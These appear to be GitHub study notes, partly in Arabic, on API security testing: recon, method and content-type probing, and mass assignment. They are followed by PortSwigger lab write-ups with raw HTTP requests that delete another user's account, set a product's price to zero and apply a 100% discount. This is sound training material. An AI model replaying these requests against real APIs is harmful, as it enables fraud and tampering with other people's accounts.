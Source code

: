 


# API testing

- <details>
     <summary>API Recon & documentation</summary>


  # 🛡️ API Testing - شرح مبسط
  
  ## 📌 ما هو **API Testing**؟
  - **API (Application Programming Interface)** هو الوسيط الذي يسمح للبرامج أو السيرفرات بالتواصل مع بعضها.
  - أي موقع ديناميكي (dynamic) يتكون من APIs:
    - مثال: عند تسجيل الدخول **login** → API تستقبل الـ username/password.
    - مثال: عند جلب **profile info** → API تسحب البيانات من قاعدة البيانات وتعيدها في صورة JSON.
  
  ⚠️ إذا كانت الـ API بها ثغرة → هذا قد يؤثر على **Confidentiality, Integrity, Availability (CIA)**.
  
  ---
  
  ## 📌 العلاقة بين Web Testing و API Testing
  - معظم ثغرات الويب (SQLi, XSS, Auth bypass) يمكن أن تظهر في APIs.
  - الفرق أن **API Testing** يكشف أحيانًا Endpoints غير مستخدمة في الواجهة الأمامية (front-end)، لكنها مدعومة على السيرفر → توسع الـ attack surface.
  
  ---
  
  ## 📌 خطوات الـ Recon (استكشاف API)
  
  ### 1. **Identify Endpoints** (تحديد الـ endpoints)
  الـ endpoint هو مكان استقبال الطلبات.
  
  مثال:
  ```http
  GET /api/books HTTP/1.1
  Host: example.com
  ```
  
  - `/api/books` → endpoint  
  - يعيد قائمة من الكتب
  
  مثال آخر:
  - `/api/books/mystery` → يعيد قائمة بكتب الغموض
  
  ---
  
  ### 2. **افهم كيفية التعامل مع الـ API**
  لكي تبدأ اختبار يجب أن تعرف:
  - ✅ الـ input parameters (إجباري / اختياري)  
  - ✅ الـ HTTP methods المدعومة (GET, POST, PUT, DELETE…)  
  - ✅ الـ media formats (JSON, XML)  
  - ✅ هل يوجد Rate limiting (عدد الطلبات المسموح بها)  
  - ✅ آلية Authentication (Token / API Key / JWT)  
  
  ---
  
  ## 📌 API Documentation (التوثيق)
  - **Human-readable**: توثيق مكتوب يشرح الأمثلة والاستخدام.  
  - **Machine-readable**: ملفات JSON/XML (مثل Swagger أو OpenAPI).  
  
  🔍 **أماكن شائعة للتوثيق**:
  - `/api`
  - `/swagger/index.html`
  - `/openapi.json`
  
  مثال: لو وجدت `/api/swagger/v1/users/123`  
  جرب أيضًا:
  - `/api/swagger/v1`  
  - `/api/swagger`  
  - `/api`  
  
  🛠 يمكنك استخدام **Burp Scanner** أو **Intruder** لتجربة common paths.
  
  ---
  
  ## 📌 الخلاصة
  - **API Testing = Web Testing + Hidden attack surface**
  - تبدأ بالـ **Recon**: ابحث عن endpoints + documentation  
  - افهم كيف تعمل الـ API (inputs, methods, auth)  
  - ثم اختبر الثغرات مثل:
    - **SQLi داخل JSON**
    - **Auth bypass بالـ tokens**
    - **Server-side Parameter Pollution (SSPP)**
    - **Excessive Data Exposure** (إرجاع بيانات حساسة/زائدة)
  

  
  </details>





- <details>
     <summary>Interacting with API endpoints</summary>

     
     
     # 🛡️ API Testing 
     
     ## 1️⃣ Machine-readable Documentation (التوثيق القابل للمعالجة آليًا)
     - أحيانًا بتلاقي توثيق API في شكل **JSON / YAML** (زي Swagger أو OpenAPI).  
     - تقدر تستخدم Tools عشان تحللها أو تختبر الـ endpoints مباشرة.  
     
     🛠 الأدوات:
     - **Burp Scanner** → يقرأ OpenAPI docs ويعمل crawl & audit  
     - **OpenAPI Parser BApp** → تحليل OpenAPI داخل Burp Suite  
     - **Postman / SoapUI** → لاختبار الـ endpoints يدويًا أو أوتوماتيك  
     
     ---
     
     ## 2️⃣ Identifying API Endpoints (تحديد الـ endpoints)
     - حتى لو عندك documentation، لازم تراجع التطبيق بنفسك:  
       - ساعات الـ documentation قديمة أو ناقصة  
       - من خلال التطبيق نفسه ممكن تلاقي endpoints غير مذكورة  
     
     👀 أماكن محتملة للـ Endpoints:
     - **/api/** في الـ URLs  
     - **JavaScript files** → ممكن تحتوي API calls مخفية  
     - **Burp Scanner** → يلتقط بعض الـ endpoints  
     - **JS Link Finder BApp** → استخراج أعمق من ملفات JS  
     
     ---
     
     ## 3️⃣ Interacting with Endpoints (التفاعل مع الـ endpoints)
     - استخدم الأدوات:  
       - **Burp Repeater** → تجربة يدوية  
       - **Burp Intruder** → تجربة أوتوماتيكية  
     
     💡 جرب تغيّر:
     - **HTTP method** (GET, POST, PUT…)  
     - **Media type** (JSON, XML…)  
     - راقب **error messages** → ممكن تكشف تفاصيل عن الباك اند أو باراميترات إضافية  
     
     ---
     
     ## 4️⃣ Identifying Supported HTTP Methods
     - الـ **HTTP Method** يحدد نوع العملية:  
       - `GET` → جلب البيانات  
       - `PATCH` → تعديل جزئي  
       - `OPTIONS` → يكشف الـ methods المدعومة  
     
     👨‍💻 مثال على endpoint:
     ```
     GET /api/tasks        → يرجع قائمة المهام  
     POST /api/tasks       → ينشئ مهمة جديدة  
     DELETE /api/tasks/1   → يحذف مهمة برقم 1  
     ```
     
     🛠 Burp Intruder:
     - يحتوي على قائمة HTTP verbs جاهزة  
     - جربها تلقائيًا على endpoint لكشف methods إضافية  
     
     ⚠️ مهم: جرب على بيانات **قليلة الأهمية (low-priority)** لتجنب كسر أو تغيير بيانات production  
     
     ---
     
     ## 5️⃣ Identifying Supported Content Types (أنواع المحتوى)
     - الـ API غالبًا بتتوقع نوع محتوى محدد مثل `application/json`  
     - تغيير الـ Content-Type ممكن يفتح هجوم جديد  
     
     👀 الفوائد:
     - Trigger أخطاء تكشف معلومات  
     - Bypass دفاعات ضعيفة  
     - استغلال اختلاف المعالجة (مثال: آمن مع JSON لكن ضعيف مع XML)  
     
     🛠 Burp:
     - غيّر Header:
       ```http
       Content-Type: application/xml
       ```
     - وحوّل الـ body من JSON إلى XML  
     - **Content Type Converter BApp** يساعد في التحويل التلقائي بين JSON ↔ XML  
     
     ---
     
     ## 📌 الخلاصة
     - 📑 لو لقيت **Machine-readable docs** → حللها بالأدوات (Burp Scanner, Postman)  
     - 🔍 حتى مع docs → دايمًا اعمل Recon يدوي (URLs + JS files)  
     - 🎯 جرّب تتفاعل مع endpoints (HTTP methods, Content types)  
     - ⚡ الهدف: اكتشاف وظائف إضافية + ثغرات (SQLi, Auth bypass, Injection …)
     



     
  </details>





- <details>
     <summary>Mass assignment vulnerabilities</summary>



     
     
     
     # API Recon and Mass Assignment Vulnerabilities
     
     ## Using Intruder to Find Hidden Endpoints
     Once you have identified some initial API endpoints, you can use **Burp Intruder** to uncover hidden endpoints.
     
     **Example:**
     ```
     PUT /api/user/update
     ```
     
     You can test for hidden endpoints by replacing `/update` with common words like `delete`, `add`, etc., using a **wordlist**.
     
     👉 Use wordlists based on:
     - Common API naming conventions.
     - Industry terms.
     - Application-specific terms (from recon).
     
     ---
     
     ## Finding Hidden Parameters
     During API recon, you may find undocumented parameters that can affect application behavior.
     
     ### Tools to Help:
     - **Burp Intruder** → use a wordlist of common parameters.
     - **Param Miner BApp** → can guess up to 65,536 parameters automatically.
     - **Content Discovery Tool** → finds hidden/unlinked parameters.
     
     ---
     
     ## Mass Assignment Vulnerabilities
     Mass assignment (auto-binding) happens when frameworks automatically bind request parameters to internal object fields.
     
     This may expose unintended hidden parameters.
     
     ### Identifying Hidden Parameters
     You can often spot hidden parameters by analyzing API responses.
     
     **Example:**
     ```
     PATCH /api/users/
     {
         "username": "wiener",
         "email": "wiener@example.com"
     }
     ```
     
     A concurrent response from:
     ```
     GET /api/users/123
     {
         "id": 123,
         "name": "John Doe",
         "email": "john@example.com",
         "isAdmin": "false"
     }
     ```
     
     This hints that `id` and `isAdmin` may be hidden parameters.
     
     ---
     
     ## Testing for Mass Assignment
     Try modifying hidden parameters in requests.
     
     ### Test 1 - Normal update with hidden parameter:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": false
     }
     ```
     
     ### Test 2 - Invalid value for hidden parameter:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": "foo"
     }
     ```
     
     If behavior changes → parameter is being processed.
     
     ### Exploitation - Privilege Escalation:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": true
     }
     ```
     
     If bound without validation, the user may gain **admin privileges**.
     
     ---
     
     ## Key Takeaways
     - Intruder helps find hidden endpoints.
     - Param Miner & Intruder can find hidden parameters.
     - Mass assignment can expose sensitive parameters like `isAdmin`.
     - Always test with valid and invalid values to confirm vulnerability.
     
     





  </details>






- <details>
     <summary>Server-side parameter pollution</summary>


     <details>
     
     <img width="774" height="277" alt="image" src="https://github.com/user-attachments/assets/31406ab2-46e6-4171-b439-aa876d551c18" />
     
     <img width="842" height="373" alt="image" src="https://github.com/user-attachments/assets/db2fecd5-b365-4f6f-a7fe-e4aee42fecff" />
     
     <img width="744" height="612" alt="image" src="https://github.com/user-attachments/assets/422a0a92-6a6d-4b69-abcf-c78378bdc83b" />
     
     <img width="766" height="406" alt="image" src="https://github.com/user-attachments/assets/efa52df2-a6fc-48e4-ba92-076bcb6d872d" />
     
     <img width="762" height="410" alt="image" src="https://github.com/user-attachments/assets/c938e7c5-7897-4f86-a968-4528db4c3952" />
     
     <img width="772" height="596" alt="image" src="https://github.com/user-attachments/assets/fc0ae5b7-7f91-4276-91a6-966fb87993ef" />
     
     <img width="697" height="661" alt="image" src="https://github.com/user-attachments/assets/2985f930-0f96-41c0-8763-f5cd4a8277e8" />
     
     
          
     </details>
     
     
     
     





     
</details>


















































































----




# **`API Testing Labs`**


<details>
     <summary>Lab: Exploiting an API endpoint using documentation</summary>

#### 1. login with **`wiener : peter`**
#### 2. try to update your email and intercept the request

```http
PATCH /api/user/wiener HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"wiener",
  "email":"user@EXAMPLE.com"
}
```

---

> ## what if we change user


```http
PATCH /api/user/carlos HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"plapla@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"carlos",
  "email":"plapla@EXAMPLE.com"
}
```


> ## now try to change method from **`patch`** to **`DELETE`**

```http
DELETE /api/user/carlos HTTP/2
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "status":"user deleted"
}
```


> ## if we set path to **`/api`**

<img width="952" height="699" alt="image" src="https://github.com/user-attachments/assets/49f6beef-4bee-4ed1-a971-259b69a08f35" />


     
</details>




<details>
     <summary>Lab: Finding and exploiting an unused API endpoint</summary>

> 1. login as **`wiener : peter`**
> 2. select product and see the request


```http
GET /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 97


{
  "price":"$1337",
  "message":"Buy quick, we are low on stock! 4 purchased in the last 14 minutes!"
}
```

---

> ## first try **`OPTIONS`** header to see which methods are allowed


```http
OPTIONS /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

> ## found that **`GET, PATCH`** only allowd
> - now change method to **``PATCH``**


```
```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```

### **`response`**

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93


{
  "type":"ClientError",
  "code":400,
  "error":"Only 'application/json' Content-Type is supported"
}
```

> ## we found that content type must be json we will add this header
> - **`Content-Type: application/json`**
> - add json content with new price

```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json;

{
  "price":0
}


```

<img width="1434" height="540" alt="image" src="https://github.com/user-attachments/assets/bc003da5-54f5-49db-8f06-713ecb5022a1" />




     
</details>





<details>
     <summary>Lab: Exploiting a mass assignment vulnerability</summary>



> ### login with **`weiner : peter`**
> - select product and add it to cart
> - go to cart
> - see the requests

```http
GET /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

### **`response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153


{
   "chosen_discount":{
       "percentage":0
   },"chosen_products":[
      {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,"item_price":133700
      }
  ]
}
```

----

> ## first set method to **`options`** to see which methods are allowed


```http
OPTIONS /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

### **`response`**

```http
HTTP/2 405 Method Not Allowed
Allow: POST, GET
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20


"Method Not Allowed"
```

---

> ## Good now we can use **`post`** method to update **`discount percentage`** to `100``


```http
POST /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{
   "chosen_discount":{
       "percentage":100
   },"chosen_products":[
      {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,"item_price":133700
      }
  ]
}


```

### **`response`**

```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```



<img width="1516" height="700" alt="image" src="https://github.com/user-attachments/assets/8252e86b-421f-4c85-885b-8942edf5392c" />

<img width="1346" height="679" alt="image" src="https://github.com/user-attachments/assets/22e73718-d2c2-4d2b-8949-07d1caba2875" />




     
</details>


































